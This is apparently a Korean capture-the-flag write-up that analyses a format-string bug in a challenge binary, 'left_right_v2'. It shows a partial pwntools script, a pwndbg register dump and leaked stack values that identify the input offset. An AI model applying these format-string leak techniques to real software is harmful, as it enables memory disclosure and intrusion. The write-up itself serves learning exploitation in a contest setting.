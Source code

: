 ```python
        p.sendlineafter('way >>', str(2))
        p.sendlineafter('move >>', str(1))

def move():
    right()
    left()

p = process('./left_right_v2')
e = ELF('./left_right_v2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

move()

p.interactive()
```

`main()`에서 `printf(buf);`를 통해 **FSB**가 가능하므로 확인해본다.

```
pwndbg> context
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────
*RAX  0x0
 RBX  0x0
*RCX  0x7f8f3cdb2104 (write+20) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x7f8f3d08f8c0 (_IO_stdfile_1_lock) ◂— 0x0
*RDI  0x7ffcd8af5d90 ◂— 0x4141414141414141 ('AAAAAAAA')
*RSI  0x7f8f3d08e7e3 (_IO_2_1_stdout_+131) ◂— 0x8f8c0000000000a /* '\n' */
*R8   0x17
 R9   0x7f8f3d2b14c0 ◂— 0x7f8f3d2b14c0
 R10  0x7f8f3ce40bc0 (_nl_C_LC_CTYPE_class+256) ◂— add al, byte ptr [rax]
*R11  0x246
 R12  0x5584a3d81180 (_start) ◂— endbr64
 R13  0x7ffcd8af5ea0 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7ffcd8af5dc0 —▸ 0x5584a3d81760 (__libc_csu_init) ◂— endbr64
 RSP  0x7ffcd8af5d90 ◂— 0x4141414141414141 ('AAAAAAAA')
*RIP  0x5584a3d816c6 (main+262) ◂— call 0x5584a3d81130
```

> payload를 전송하고 `printf`에 break point를 걸고 stack을 확인해본 값이다.

```
Hall Of Fame
=======================
AAAAAAAAA|0x7f8f3d08e7e3|0x7f8f3d08f8c0|0x7f8f3cdb2104|0x17|0x7f8f3d2b14c0|0x4141414141414141|0x7c70257c70257c41|%\xa0^\xaf\xd8\xfc\x7f
=======================
```

우리가 넘겨주는 `AAAAAAAA`는 offset 6에서 가져오는 것을 알 수 있다. 마지막 Memory Leak이 일어나는 것을 알 수 있다. 해당 값이 어떤 것인지 알아본다.

[rbp-0x10]에 위치한 값으로 64bit 함수 호출 규약에 의해서 `rdi, rsi, rdx, rcx, r8, r9, rsp, rsp+0x8, rsp+0x10` 순으로 인자 값을 받아온다. (_대회에서 해당 내용을 잊고 진행하여 최종 익스플로잇을 실패했다._)
